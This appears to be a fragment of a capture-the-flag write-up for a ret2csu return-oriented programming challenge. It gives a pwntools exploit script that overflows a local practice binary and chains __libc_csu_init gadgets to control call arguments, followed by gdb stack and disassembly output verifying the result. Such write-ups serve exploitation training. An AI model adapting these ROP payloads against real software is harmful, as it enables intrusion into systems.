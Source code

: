 ``` python
ret2win=elf.plt['ret2win']

g_poprdi=0x004006a3
gadget_1=0x0040069a
gadget_2=0x00400680


io = process([elf.path])

if len(sys.argv)>1 and sys.argv[1] == "-d":
    gdb.attach(io,gs)
    time.sleep(1)


PL =b"A"*offset
PL+=p64(gadget_1)
PL+=p64(0x0)                 # rbx
PL+=p64(0x0)                 # rbp
PL+=p64(0x0600e48)           # r12 = .dynamic+48
PL+=p64(0xdeadbeefdeadbeef)  # r13
PL+=p64(0xcafebabecafebabe)  # r14
PL+=p64(0xd00df00dd00df00d)  # r15
PL+=p64(gadget_2)

io.sendline(PL)
io.interactive()
```

Breaking in gdb in *pwnme + 150.

Then type "ni 22" to execute 22 instructions

``` sh
───────────────────────────────────────────────────────────────────────────────────────── stack ────
0x007fff8359e398│+0x0000: 0x0000000000000a ("\n"?)	 ← $rsp
0x007fff8359e3a0│+0x0008: 0x0000000000000000
0x007fff8359e3a8│+0x0010: 0x0000000000000000
0x007fff8359e3b0│+0x0018: 0x5af722b7590cce05
0x007fff8359e3b8│+0x0020: 0x58f4469f064ace05
0x007fff8359e3c0│+0x0028: 0x0000000000000000
0x007fff8359e3c8│+0x0030: 0x0000000000000000
0x007fff8359e3d0│+0x0038: 0x0000000000000000
──────────────────────────────────────────────────────────────────────────────────── code:x86:64 ────
     0x400680 <__libc_csu_init+64> mov    rdx, r15
     0x400683 <__libc_csu_init+67> mov    rsi, r14
     0x400686 <__libc_csu_init+70> mov    edi, r13d
 →   0x400689 <__libc_csu_init+73> call   QWORD PTR [r12+rbx*8]
     0x40068d <__libc_csu_init+77> add    rbx, 0x1
     0x400691 <__libc_csu_init+81> cmp    rbp, rbx
     0x400694 <__libc_csu_init+84> jne    0x400680 <__libc_csu_init+64>
     0x400696 <__libc_csu_init+86> add    rsp, 0x8
     0x40069a <__libc_csu_init+90> pop    rbx
────────────────────────────────────────────────────────────────────────────── arguments (guessed) ────
*[r12+rbx*8] (
   $rdi = 0x000000deadbeef,
   $rsi = 0xcafebabecafebabe,
   $rdx = 0xd00df00dd00df00d
)
```
